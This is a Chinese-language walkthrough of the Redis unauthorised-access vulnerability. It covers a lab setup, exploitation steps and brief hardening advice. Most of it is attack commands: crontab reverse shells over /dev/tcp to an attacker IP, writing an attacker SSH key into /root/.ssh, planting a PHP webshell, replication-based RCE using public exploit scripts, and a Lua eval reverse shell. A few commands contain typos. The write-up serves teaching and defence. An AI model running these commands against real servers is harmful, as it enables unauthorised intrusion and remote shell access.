# 一、漏洞简介以及危害

### 什么是Redis未授权访问漏洞：

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。

### 2. 漏洞的危害：

攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器、添加计划任务、写入Webshell等操作。

### 3.漏洞影响：



根据 ZoomEye 的探测，全球无验证可直接利用Redis 分布情况如下：




全球无验证可直接利用Redis TOP 10国家与地区：


可见当不安全的配置和疏忽的失误即可造成巨大的损失。

# 二、漏洞复现

### 1.服务搭建

#### 1.编译安装

```plain

搭建环境
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
更改配置文件
    vim redis.conf
注释掉 bind 127.0.0.1 并将 protected-mode 改成 no
    # bind 127.0.0.1
    protected-mode no
```



```
开启redis
    ./src/redis-server redis.conf
```


服务启动成功

#### 2.docker 环境

```plain
docker pull damonevking/redis5.0
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server //映射端口并运行容器
```


### 2. 未授权访问漏洞测试

#### 1. 未授权访问数据库

启动redis服务进程后，就可以使用测试攻击机程序redis-cli和靶机的redis服务交互了。 比如：

```plain

 redis-cli -h <IP> # 未授权访问IP
```



登录的结果可以看出该redis服务对公网开放，且未启用认证。

```plain
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
```
举例输入info,查看到大量敏感信息。


#### 2.利用crontab反弹shell

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的kali/服务器上监听一个端口nc -nlvp 5678



然后通过未授权访问连接上服务器执行命令

```plain
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali的IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali的IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```



待任务执行后会弹到kali的nc上，过一分钟左右就可以收到shell


再上线到CS做权限维持和后渗透



### 3.利用公私钥认证获得root权限

在以下条件下,可以利用此方法

*  Redis 服务使用 ROOT 账号启动

* 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

**实例**

1. 靶机中开启redis服务：`redis-server /etc/redis.conf`

2. 在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录

在攻击机中生成ssh公钥和私钥，密码设置为空：

```plain
ssh-keygen -t rsa
```


进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```plain
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```


链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```plain
  cat test.txt | redis-cli -h <hostname> -x set test
```



远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到redis备份的路径：



更改redis备份路径为ssh公钥存放目录（一般默认为`/root/.ssh`）：



此时通过ssh 连接到靶机

```plain
ssh -i id_rsa root@<ip>
```



### 4.利用redis 未授权写 Webshell

利用前提：

* 靶机redis链接未授权，在攻击机上能用`redis-cli`连上
* 当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell

此时我们需要知道目标的 web路径，示例写入的是apache的默认安装路径

```plain
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```


此时 phpinfo已经写入目标路径下



访问目标网站




### 5.利用主从复制GetShell

先讲解一下 redis 的主从模式：

指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力。

这里我们开两台redis数据库来做测试




然后通过slaveof可以设置主从状态

```plain
slaveog <主redis ip><端口号>
```


这样一来数据就会自动同步了

当服务器开启主从同步后，利用脚本

```plain
git clone https://github.com/Ridter/redis-rce.git   //下载漏洞利用脚本
https://github.com/n0b0dyCN/redis-rogue-server //脚本需要调用这里的 exp.so文件
```
将exp.so文件下载并放到和redis-rce.py同一目录下,执行命令：

```plain
python3 redis-rce.py -r <目标ip> -L <自己IP> -f exp.so
```


在此处：`i为交互式shell`，r为反弹shell，根据自己的需要选择就可以了



### 6.利用 redisLua RCE

```plain
git clone https://github.com/QAX-A-Team/redis_lua_exploit.git //下载漏洞利用脚本
```
测试环境：`centos6.5+redis 2.6.16`

脚本为 python2，运行脚本需先安装 `python2 redis` 组件

```plain
python2 -m pip install redis //为python2 安装redis组件
```
修改脚本中 host为目标 IP。


通过`redis-cli`连接到目标 redis ，执行`eval "tonumber('whoami', 8)" 0`这段 lua，目标服务器就会执行whoami命令。

```plain
eval "tonumber('whoami', 8)" 0 //执行命令
```
此时我们使用回弹shell 测试一下，先开启 nc监听：

```plain
nc -lvnp 5678
```
再连接上数据库执行会弹语句：

```plain
eval "tonumber('/bin/bash -i >& /dev/tcp/<攻击机ip>/<端口信息> 0>&1', 8)" 0
```




接收到回弹的shell，漏洞利用成功。


# 三、修复建议

### 1.限制访问

比较安全的办法是采用绑定IP的方式来进行控制。

请在`redis.conf`文件找到如下配置

```plain
# If you want you can bind a single interface, if the bind option is not
# specified all the interfaces will listen for incoming connections.
#
# bind 127.0.0.1
```
把 `#bind 127.0.0.1`前面的注释#号去掉，然后把127.0.0.1改成你允许访问你的redis服务器的ip地址，表示只允许该ip进行访问，这种情况下，我们在启动redis服务器的时候不能再用:`redis-server`，改为:r`edis-server path/redis.conf` 即在启动的时候指定需要加载的配置文件,其中`path/`是你上面修改的redis配置文件所在目录。
#### 2.设置密码

打开`redis.conf`配置文件，找到`requirepass`，然后修改如下:

```plain
requirepass yourpassword
yourpassword就是redis验证密码，设置密码以后发现可以登陆，但是无法执行命令了。

命令如下:
redis-cli -h yourIp -p yourPort//启动redis客户端，并连接服务器
keys * //输出服务器中的所有key
报错如下
(error) ERR operation not permitted

这时候你可以用授权命令进行授权，就不报错了

命令如下:
auth youpassword
```


